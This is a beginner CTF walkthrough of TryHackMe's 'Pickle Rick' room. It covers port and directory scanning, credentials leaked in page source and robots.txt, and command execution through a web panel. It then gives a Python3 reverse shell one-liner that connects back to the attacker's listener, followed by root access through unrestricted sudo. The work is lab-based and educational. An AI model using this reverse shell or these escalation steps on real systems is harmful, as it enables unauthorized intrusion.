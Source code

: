 # Pickle Rick
**Date:** January 20th 2022

[**Link**](https://tryhackme.com/room/picklerick) to the Pickle Rick CTF on TryHackMe.

This is rated as an easy CTF for beginners.

<br>

## Objectives

This CTF requires that you find the following:
- What is the first ingredient Rick needs?
- What is the second ingredient Rick needs?
- What is the third ingredient Rick needs?

<br>

## Nmap Scan

I start with an `nmap` scan to see which ports are open:
```
sudo nmap -sC -sV -A -oN rick.nmap 10.10.172.250
```
We only see 2 - ssh and http:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 89:78:34:72:cf:f7:19:26:15:12:c2:4e:9e:7f:c9:d9 (RSA)
|   256 4c:25:1a:7a:25:87:a5:7e:18:12:07:21:30:03:98:ad (ECDSA)
|_  256 76:58:15:13:d9:04:f3:b2:e0:b9:41:14:e2:bd:b9:83 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

<br>

## Website

Not having much to go on at this point I start with the website:

![](/CTF/images/picklerick1.png)

It seems Rick needs our help finding 3 secret ingredients or he'll be stuck as a pickle forever, and we can't have that!

Viewing the page source code shows an interesting comment:
```
<!--

    Note to self, remember username!

    Username: <REDACTED>

  -->
```
Now we have a username so that's a start. Let's check to see if there is anything else interesting on the website by running a `gobuster` scan:
```
gobuster dir -u http://10.10.172.250 -w /usr/share/wordlists/dirb/common.txt -t 50 -r -o rick.buster -x php,txt,html 2& > /dev/null
```
The scan shows a few additional things to check out:
```
/assets               (Status: 200) [Size: 2192]
/denied.php           (Status: 200) [Size: 882] 
/login.php            (Status: 200) [Size: 882] 
/portal.php           (Status: 200) [Size: 882] 
/robots.txt           (Status: 200) [Size: 17]
```
/assets does not provide anything useful that I can see, but does have some pictures if you want to check them out.

Looking at robots.txt shows only a short string of text:
```
<REDACTED>
```

The denied.php and login.php files give you a login page. After logging in you are redirected to portal.php.

![](/CTF/images/picklerick2.png)

Given we have a username and a string of text from the robots.txt file let's try those as a login combo on the page.

We're in! Of the menu bar options at the top it looks like only the Commands tab is useful to us:

![](/CTF/images/picklerick3.png)

Running the `ls` command displays a list of files so we are able to execute commands directly on the webserver via this interface:
```
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```
Running `cat Sup3rS3cretPickl3Ingred.txt` displays an error saying the command is disabled so we can't display the file contents that way.

I then tried `less Sup3rS3cretPickl3Ingred.txt` as a work around which was successful and gives us the answer for the first ingredient:
```
<REDACTED>
```

`less clue.txt` shows:
```
Look around the file system for the other ingredient.
```
1 down and 2 to go!

<br>

## Getting a shell

Still on the website I check to see if python3 is available with `which python3` and it is:
```
/usr/bin/python3
```

Let's see if we can get a reverse shell here. I set up a listener on my system with `nc -nvlp 4444`:
```
nc -nvlp 4444
listening on [any] 4444 ...
```

And then find a reverse shell payload on [**revshells.com**](https://www.revshells.com/). I'm going with Python3 #1.
```
export RHOST="<YOUR IP>";export RPORT=4444;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

After executing the command above we get a shell back on our listener!
```
connect to [<MY IP>] from (UNKNOWN) [10.10.172.250] 53856
$ whoami
whoami
www-data
$ hostname
hostname
ip-10-10-172-250
$
```

Let's stabilize the shell:
```
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@ip-10-10-172-250:/var/www/html$ export TERM=xterm
export TERM=xterm
www-data@ip-10-10-172-250:/var/www/html$ ^Z
zsh: suspended  nc -nvlp 4444
                                                                                                       
┌──(kali㉿kali)-[~/work]
└─$ stty raw -echo; fg                                                                       148 ⨯ 1 ⚙
[1]  + continued  nc -nvlp 4444

www-data@ip-10-10-172-250:/var/www/html$
```

Running an `ls` command displays the files from above and you can `cat Sup3rS3cretPickl3Ingred.txt` and `cat clue.txt` at this point if you didn't already display them on the website.

Taking a look at the /home directory shows us a directory for **rick**, and looking inside gives us the answer for the second ingredient:
```
www-data@ip-10-10-172-250:/var/www/html$ cd /home
www-data@ip-10-10-172-250:/home$ ls
rick  ubuntu
www-data@ip-10-10-172-250:/home$ cd rick
www-data@ip-10-10-172-250:/home/rick$ ls
second ingredients
www-data@ip-10-10-172-250:/home/rick$ cat "second ingredients"  
<REDACTED>
```

Now let's see about privilege escalation. Anything listed on `sudo -l`?
```
www-data@ip-10-10-172-250:/home/rick$ sudo -l
Matching Defaults entries for www-data on
    ip-10-10-172-250.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-172-250.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

Well, that was easy! No need to run linpeas or anything when we can run all commands as root with sudo. Let's `sudo /bin/bash` to get root:
```
www-data@ip-10-10-172-250:/home/rick$ sudo /bin/bash
root@ip-10-10-172-250:/home/rick#
```

Let's take a look at the /root directory:
```
root@ip-10-10-172-250:/home/rick# cd /root
root@ip-10-10-172-250:~# ls
3rd.txt  snap
root@ip-10-10-172-250:~# cat 3rd.txt
3rd ingredients: <REDACTED>
```

And we now have all 3 ingredients allowing to get Rick out of the pickle he's in. Ok that was a terrible joke I admit.

![](/CTF/images/picklerick4.png)

Many thanks to **TryHackMe** for creating and hosting this fun Rick and Morty themed CTF. I had a blast going through it.

You can visit them at: [**https://tryhackme.com**](https://tryhackme.com)
